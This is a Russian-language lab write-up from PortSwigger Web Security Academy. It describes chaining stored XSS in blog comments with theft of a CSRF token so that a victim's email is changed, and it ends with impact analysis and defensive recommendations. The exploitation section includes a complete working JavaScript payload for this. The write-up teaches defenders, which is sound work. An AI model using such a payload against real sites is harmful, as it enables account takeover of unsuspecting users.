







**Платформа:** PortSwigger Web Security Academy  
**Сложность:** Practitioner  
**Категория:** Cross-Site Scripting (XSS)  
**Цель:** Использовать XSS-уязвимость для обхода CSRF-защиты и выполнить действие от имени жертвы (сменить email на `test@test.com`).

---
#### 1. Контекст и анализ поверхности

Приложение имеет уязвимость Reflected XSS в комментариях к постам. При этом механизм смены email защищён CSRF-токеном: без валидного значения параметра `csrf` запрос на изменение почты отклоняется. Задание предлагает связать обе уязвимости — выполнить XSS в контексте жертвы и оттуда автоматически отправить легитимный запрос смены email, заранее выкрав CSRF-токен со страницы `/my-account`.

**Шаг 1. Вход в систему**

Заходим под учётными данными `wiener:peter`. Попадаем на главную страницу с постами блога.



**Шаг 2. Разведка страницы смены email**

Переходим на страницу аккаунта и пытаемся изменить email. Изучаем HTML-форму — она содержит скрытое поле `csrf`:

```
<input required type="hidden" name="csrf" value="...">
```

Этот токен привязан к сессии пользователя. Значит, для автоматической смены email через XSS нужно сначала прочитать текущее значение токена со страницы `/my-account`, а затем отправить POST-запрос на `/my-account/change-email` с полученным токеном.



**Шаг 3. Анализ запроса смены email**

Перехватываем запрос в Burp Suite. Видим, что он уходит методом `POST` на `/my-account/change-email` с параметрами `csrf` и `email`. CSRF-токен проверяется на сервере — без него (или с чужим токеном) запрос не пройдёт.



Мы ввели адрес почты, теперь нам нужно захватить запрос и изучить



Дальше заходим на любой пост и смотрим его



#### 2. Эксплуатация: Кража CSRF-токена и смена email через XSS

**Шаг 1. Формирование payload**

Собираем JavaScript, который:

1. Запрашивает страницу `/my-account`.
    
2. Извлекает из ответа значение CSRF-токена регулярным выражением.
    
3. Отправляет POST-запрос на `/my-account/change-email` с этим токеном и нужным email.

Итоговый payload:

```javascript
`<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send(); 
function handleResponse() { 
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
	var changeReq = new XMLHttpRequest(); 
	changeReq.open('post', '/my-account/change-email', true); 
	changeReq.send('csrf='+token+'&email=test@test.com') }; </script>`
```

**Шаг 2. Внедрение payload**

Вставляем этот скрипт в поле комментария к посту и отправляем. Сервер принимает комментарий без санитизации, и он сохраняется как часть страницы.



**Шаг 3. Срабатывание на жертве**

Когда модератор (или бот платформы) открывает пост с нашим комментарием, браузер выполняет скрипт в его сессии. Скрипт:

- Загружает `/my-account` с его cookie,
    
- Парсит актуальный CSRF-токен,
    
- Отправляет запрос на смену email — сервер видит валидный токен и корректную сессию, поэтому принимает запрос.
    

В результате email жертвы успешно меняется на `test@test.com`.



Задание пройдено.

#### 3. Impact

Уязвимость XSS в связке с CSRF-защитой позволяет полностью обойти анти-CSRF механизмы и выполнять от имени пользователя любые действия:

- **Смена учётных данных:** Email, пароля, привязанных аккаунтов — с последующим захватом аккаунта.
    
- **Выполнение привилегированных операций:** Отправка средств, изменение настроек, действия от имени администратора (если XSS-страницу открывает админ).
    
- **Кража чувствительных данных:** Чтение любых страниц, доступных жертве, через `XMLHttpRequest` и отправка содержимого на сторонний сервер.
    
- **Цепочка атак:** XSS может использоваться как «первый шаг» для дальнейшей эскалации — например, для добавления нового администратора.
    

CSRF-токены бесполезны, если злоумышленник может выполнить JS в контексте жертвы: он просто читает токен из DOM и подставляет его в собственный запрос.

---

#### 4. Recommendations

1. **Экранируйте пользовательский ввод.** Все данные, попадающие в HTML (включая комментарии), должны проходить контекстно-зависимое кодирование (HTML-encoding). Этого одного исправления достаточно, чтобы XSS перестал работать.
    
2. **Используйте `HttpOnly` для cookie сессии.** Это не спасёт от CSRF-обхода, но снизит ущерб при XSS (защитит от кражи cookie напрямую).
    
3. **Ужесточите CSP.** Директива `script-src` должна запрещать `unsafe-inline` и внешние скрипты с недоверенных источников. Современный nonce-based CSP блокирует инъекцию `<script>` в HTML.
    
4. **CSRF-токен на отдельной странице.** Дополнительная защита: привязывайте CSRF-токен к конкретному эндпоинту и короткому сроку жизни, чтобы его нельзя было переиспользовать на других формах.
    
5. **Принцип "не доверяй пользовательскому контенту".** Любые UGC (комментарии, имена, описания) должны рендериться исключительно как текст, без `innerHTML` и без шаблонизации на стороне клиента.
    
6. **Регулярное тестирование.** Включите в CI/CD проверки на XSS и CSRF, а также регулярный аудит шаблонов вывода данных.